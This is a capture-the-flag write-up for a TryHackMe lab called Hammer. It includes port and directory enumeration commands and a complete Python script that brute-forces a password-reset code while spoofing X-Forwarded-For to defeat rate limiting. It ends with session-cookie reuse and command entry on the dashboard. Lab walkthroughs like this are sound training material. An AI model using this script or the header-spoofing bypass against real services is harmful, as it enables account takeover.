[Hammer challenge](https://tryhackme.com/room/hammer) by TryHackMe

## This write-up contains the approach to solve the Hammer challenge by tryhackme.com

### Questions to be answered:
  - What is the flag value after logging in to the dashboard?
  - What is the content of the file /home/ubuntu/flag.txt?


By starting the target machine, you will get a single IP address to start with. Since very little initial information is given, we need to perform an enumeration on the system.
According to the question, our target is a website.

If you put the IP address in the URL bar, you won't be able to reach the website. That means the website is not running on the typical `port 80`. To find out the port on which
the web service is running. We need to perform port scanning on the target using `nmap`.

```
nmap -n -Pn 10.49.190.120 -p- -sV
```
`-n` - no DNS resolution

`-Pn` - port scan only

`-p-` - scan all 65535 ports

`-sV` - version of the service running on the port

**output:**
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-28 16:43 IST
Nmap scan report for 10.49.190.120
Host is up (0.053s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 168.02 seconds
```


As you can see, the HTTP service is running on port 1337.
Now, in your browser, you can visit the website with the URL `http://[IP]:1337`



You need to log in. But surely you don't have the email and password. So let's start the enumeration by looking at the web page's source code.



There you have your first clue. With that, my next step would be to do directory enumeration to see what directories the website has.
I am going to use `gobuster` with a wordlist available in this path `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`. But the directory 
names here don't follow the naming convention. So we need to transform the wordlist with that specific requirement

We use the command 
```
sed 's/^/hmr_/' /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt > /tmp/wordlists/hmr_directory.txt
```
`/tmp/wordlists/hmr_directory.txt` file should exist before running this command.

Here

`s/` - Is a substitution command

`^` - Is a regular expression anchor matching the start of the line

`/hmr_/` - Enclosed with `/` is the replacement text

This command appends `hmr_` at the start of every line.

Now you can run gobuster using the new wordlist
```
gobuster dir -u http://[IP]:1337 -w /tmp/wordlists/hmr_directory.txt
```
**output:**
```
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.49.190.120:1337
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /tmp/wordlists/directory.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/hmr_images           (Status: 301) [Size: 326] [--> http://10.49.190.120:1337/hmr_images/]
/hmr_css              (Status: 301) [Size: 323] [--> http://10.49.190.120:1337/hmr_css/]
/hmr_js               (Status: 301) [Size: 322] [--> http://10.49.190.120:1337/hmr_js/]
/hmr_logs             (Status: 301) [Size: 324] [--> http://10.49.190.120:1337/hmr_logs/]
```

An interesting-looking directory has shown up: `hmr_logs`.

Let's visit the directory in the browser.



There is an error log file. Let's see what we can find inside it.



You can see a user with email `tester@hammer.thm`. We can use this email to log in to the website. 

Even though we got the email, we don't have the password. The website provides a forgot password feature. We can make use of that feature.



Entering the email, it asks for a recovery code. It also shows a timer to enter the code.



One approach could be to brute-force the recovery code using Burpsuite's intruder attack. 

Let us perform this. To do that, we need a code ranging from 0000 to 9999 to do the brute-force attack. 

We can generate these codes by using the command
```
seq -f "%04g" 0 9999 > recovery_codes.txt
```

In the Intruder tab, we can load the `recovery_code.txt` and use the sniper attack.



After starting the attack, you will receive responses that say `Rate limit exceeded. Please try again later`. Also, notice that the attack is very slow; we only have 180s to enter the recovery code.



So now we have two problems
  1. We need to perform brute-force fast enough so that we can enter the code within 180 seconds.
  2. We need to bypass the rate limit restriction.

### Bypass the rate-limit restriction

If you look at the response, there is a header called `Rate-Limit-Pending`. With a different code attempt, it gets decreased.





One of the most common ways of implementing a rate limit is to track the IP address of the client.

So to bypass the rate-limit we need to basically tell the server that each of the requests is coming from a different client. To achieve this, we can use the HTTP header called `X-Forwarded-For`.

`X-Forwarded-For` header is used to tell the server about the origin IP address when the server is behind some proxies or the client itself is connected through a proxy.

The syntax is like this

```
X-Forwarded-For: <client>, <proxy>, …, <proxyN>
```

So on each request, if we change the `X-Forwarded-For` header, the server will think that the request is coming from a different client, and our `Rate-Limit-Pending` value should not be decreased.

As you can see, the rate limit count stays fixed for different IP addresses.






### Fast brute-force attack

We will use a custom Python script to achieve this. Here is the Python code that does the brute-force attack.

Before running the script, make sure you have all the dependencies installed.


```python
import requests
import threading
import os

from bs4 import BeautifulSoup
from concurrent.futures import ThreadPoolExecutor, as_completed


IP = "<IP>"
PORT = "<PORT>"
EMAIL = "<EMAIL>"
HOST = f"{IP}:{PORT}"


URL  = f"http://{IP}:{PORT}/"
RESET_PASSWORD_URL = f"http://{IP}:{PORT}/reset_password.php"
OTP_URL = RESET_PASSWORD_URL


common_headers = {
    "Host": HOST,
    "Cache-Control": "max-age=0",
    "Accept-Language": "en-GB,en;q=0.9",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": RESET_PASSWORD_URL,
    "Content-Type": "application/x-www-form-urlencoded",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}


# Global variables i and j for generating sequential IPs
i = 1 
j = 1

# Lock to ensure thread-safe access to shared variables (i, j)
ip_lock = threading.Lock()
stop_event = threading.Event()

def generate_ip():
    global i, j

    # Ensure only one thread updates i and j at a time
    with ip_lock:
        if j < 255:
            j += 1
        else:
            i += 1
            j = 1
    
    return f"10.0.{i}.{j}"


def send_recovery_code_request(session, start, end):
    
    # Copy session headers locally to avoid modifying shared headers across threads
    local_headers = session.headers.copy()

    for i in range(start, end):
        
        # Rotate IP address to bypass rate limiting protections
        local_headers['X-Forwarded-For'] = generate_ip()

        # Stop early if another thread has completed the attack
        if stop_event.is_set():
            print("Brute force attack done ...")
            break;

        code = f"{i:04}" # Format code (e.g., 0001, 0445, 8978)

        # Request payload
        data = {
            'recovery_code': code,
            's': '170'
        }
        try:
            if not stop_event.is_set():

                # Send POST request with modified headers
                response = session.post(url=OTP_URL, data=data, headers=local_headers)

                # Check if the time limit has reached for providing the code
                location_header = response.headers.get('Location', '')
                if "Time elapsed" in location_header:
                    print("Time elapsed. Please try again later.")
                    stop_event.set()
                    break

                if response.status_code == 200:
                    print(f"Rate Limit: {response.headers.get('Rate-Limit-Pending')} | Cookie: {session.cookies}")

                    soup = BeautifulSoup(response.text, "html.parser")

                    # Look for Error and Success indicator. If code is invalid an HTML tag containing an error message having the class "alert"
                    # will show on the page. if we find that tag mean the code is invalid.
                    # Otherwise is the code is valid, and the page will updated and a field for NEW_PASSWORD and CONFIRM_PASSWORD
                    # [IMPORTANT]: Even if the page updated with new password field upon valid code entry, the error message
                    # for the invalid code of previous attempts will still be on the page.
                    invalid_code_tag = soup.find(class_="alert")
                    new_password_tag = soup.find(id="new_password")

                    if new_password_tag != None:
                        stop_event.set()
                        print(f"[VALID] recovery code found {code}")
                        return code

                    if invalid_code_tag != None:
                        if "Invalid or expired recovery code!" in invalid_code_tag.text:
                            print(f"invalid recovery code {code}")


        except Exception as e:
            print(f"[ERROR] could not brute force recovery code!")
            print("[ERROR]", e)
            stop_event.set()
            raise

    return None

def brute_force_recovery_code():

    print("Brute force starting ...")

    # # Create a session to persist cookies across requests
    session = requests.Session()

    # Initial GET request to establish session cookies 
    response = session.get(url=RESET_PASSWORD_URL, headers=common_headers)

    credentials = {"email": EMAIL}

    res = session.post(url=RESET_PASSWORD_URL, data=credentials)

    if res.status_code != 200:
        return

    ranges = list(range(0, 10_000, 1000))

    # Create a thread pool with a maximum of 10 concurrent worker threads
    with ThreadPoolExecutor(max_workers=10) as executor:

        futures = []
        
        for r in ranges:
            if stop_event.is_set():
                break
            future = executor.submit(send_recovery_code_request, session, r, r + 1000)
            futures.append(future)
        
        # Process results as threads complete
        for future in as_completed(futures):
            if stop_event.is_set():
                break
            try:
                recovery_code = future.result()
                if recovery_code:
                    print(f"[SUCCESS] recovery code found {recovery_code}")
                    stop_event.set()
                    executor.shutdown(cancel_futures=True)
            except Exception as e:
                # On Error stop all threads and cancel remaining tasks
                stop_event.set()
                executor.shutdown(cancel_futures=True)
                print("Error:", e)

if __name__ == "__main__":
    brute_force_recovery_code()        
```

When you run this Python script, the output will be like this

```
Brute force starting ...
Rate Limit: 9 | Cookie: <RequestsCookieJar[<Cookie PHPSESSID=nvtcul08kl2l7td30nel5godmn for 10.48.178.123/>]>
invalid recovery code 2000
Rate Limit: 9 | Cookie: <RequestsCookieJar[<Cookie PHPSESSID=nvtcul08kl2l7td30nel5godmn for 10.48.178.123/>]>
invalid recovery code 6000
Rate Limit: 9 | Cookie: <RequestsCookieJar[<Cookie PHPSESSID=nvtcul08kl2l7td30nel5godmn for 10.48.178.123/>]>
invalid recovery code 7000
Rate Limit: 9 | Cookie: <RequestsCookieJar[<Cookie PHPSESSID=nvtcul08kl2l7td30nel5godmn for 10.48.178.123/>]>
invalid recovery code 9000
Rate Limit: 9 | Cookie: <RequestsCookieJar[<Cookie PHPSESSID=nvtcul08kl2l7td30nel5godmn for 10.48.178.123/>]>
invalid recovery code 8000
Rate Limit: 9 | Cookie: <RequestsCookieJar[<Cookie PHPSESSID=nvtcul08kl2l7td30nel5godmn for 10.48.178.123/>]>
invalid recovery code 0000

...
...
...

Rate Limit: 9 | Cookie: <RequestsCookieJar[<Cookie PHPSESSID=nvtcul08kl2l7td30nel5godmn for 10.48.178.123/>]>
[VALID] recovery code found 0009
invalid recovery code 2013
Brute force attack done ...
invalid recovery code 9014
Rate Limit: 9 | Cookie: <RequestsCookieJar[<Cookie PHPSESSID=nvtcul08kl2l7td30nel5godmn for 10.48.178.123/>]>
Rate Limit: 9 | Cookie: <RequestsCookieJar[<Cookie PHPSESSID=nvtcul08kl2l7td30nel5godmn for 10.48.178.123/>]>
Rate Limit: 9 | Cookie: <RequestsCookieJar[<Cookie PHPSESSID=nvtcul08kl2l7td30nel5godmn for 10.48.178.123/>]>
Brute force attack done ...
Rate Limit: 9 | Cookie: <RequestsCookieJar[<Cookie PHPSESSID=nvtcul08kl2l7td30nel5godmn for 10.48.178.123/>]>
[VALID] recovery code found 3010
[VALID] recovery code found 5003
[VALID] recovery code found 7015
[VALID] recovery code found 1014
[VALID] recovery code found 8014

```

Even though it found multiple valid recovery codes, it doesn't really matter. Because when the script actually finds a valid recovery code, it already validates the code with the server and the `PHPSESSID`, and the session is updated.

So what is important for us now is the `PHPSESSID`. In fact, if you just update the PHPSESSID in the cookie and put whatever code you want, and then reload the page, you will successfully bypass the recovery code and be prompted to enter a new password.

After resetting the password, you can login into the dashboard page. The answer for Q1 shall be there.

In the Enter Command input field, enter the `ls` command to list the serving directory. There is a file named `188ade1.key`. Download the file by navigating to `/188ade.key` path. Inside the file, there is a key `56************************7d7`

